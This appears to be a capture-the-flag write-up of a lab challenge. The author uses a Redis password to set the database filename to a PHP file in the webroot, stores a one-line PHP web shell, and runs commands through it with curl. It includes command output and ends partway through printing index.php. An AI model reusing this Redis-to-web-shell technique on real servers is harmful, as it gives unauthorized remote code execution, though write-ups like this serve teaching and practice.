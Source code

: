 Decided to go with the following process again but change what I do with a few steps.



```sh
player@33c984ced50f:~$ redis-cli -a R3disp@ss -h 127.0.0.1
Warning: Using a password with '-a' or '-u' option on the command line interface may n
ot be safe.
127.0.0.1:6379> config set dbfilename moretesting.php
OK
127.0.0.1:6379> set test "<?php system($_GET['command']) ?>"
OK
127.0.0.1:6379> save
OK
127.0.0.1:6379> exit
```

Verfied that this worked by issuing the ```id``` command from the ```moretesting.php``` script. Looks like the user this file is being executed as is the ```www-data``` user and group. So, it's isolated to that directory. Which is fine. All I need to be able to do is read the ```index.php``` file.

```sh
player@33c984ced50f:~$ curl --output - http://localhost/moretesting.php?command=id
REDIS0009�      redis-ver5.0.3�
�edis-bits�@�ctime�"w�_used-mem
 aof-preamble��� test!uid=33(www-data) gid=33(www-data) groups=33(www-data)
example1The site is in maintenance modeexample2#We think there's a bug in index.php�S�
```

Now it's time to see if the file is in the webroot of the server. Based on what I'm seeing. It is. I can see the ```index.php``` file. in the directory. I can also see the file that's executing the this command in there as well.

Little note. I was having issues initially with spaces considering this is a URL. So, I had to use the ```%20``` encoding in order for the command to work as expected. Could probably do something different. But, this worked the way it should.

```sh
player@33c984ced50f:~$ curl --output - http://localhost/moretesting.php?command=ls%20-la
REDIS0009�      redis-ver5.0.3�
�edis-bits�@�ctime�"w�_used-mem
 aof-preamble��� test!total 28
drwx------ 1 www-data www-data 4096 Jan  3 07:49 .
drwxr-xr-x 1 root     root     4096 Nov 24 18:52 ..
-rwx------ 1 www-data www-data  488 Jan  3 07:35 index.php
-rwx------ 1 www-data www-data  783 Nov 24 18:50 maintenance.php
-rw-r--r-- 1 root     root      225 Jan  3 07:49 moretesting.php
-rw-r--r-- 1 root     root      211 Jan  3 07:40 testing.php
example1The site is in maintenance modeexample2#We think there's a bug in index.php�S�
```

I am now confident that I can read the ```index.php``` file. I just issued the command ```cat%20index.php``` from my script and it worked. The challenge has been completed now that the ```index.php``` file has been read.

```sh
player@33c984ced50f:~$ curl --output - http://localhost/moretesting.php?command=cat%20index.php
REDIS0009�      redis-ver5.0.3�
�edis-bits�@�ctime�"w�_used-mem
 aof-preamble��� test!<?php
# We found the bug!!
#
#         \   /
#         .\-/.
#     /\ ()   ()
#       \/~---~\.-~^-.
# .-~^-./   |   \---.
#      {    |    }   \
#    .-~\   |   /~-.
```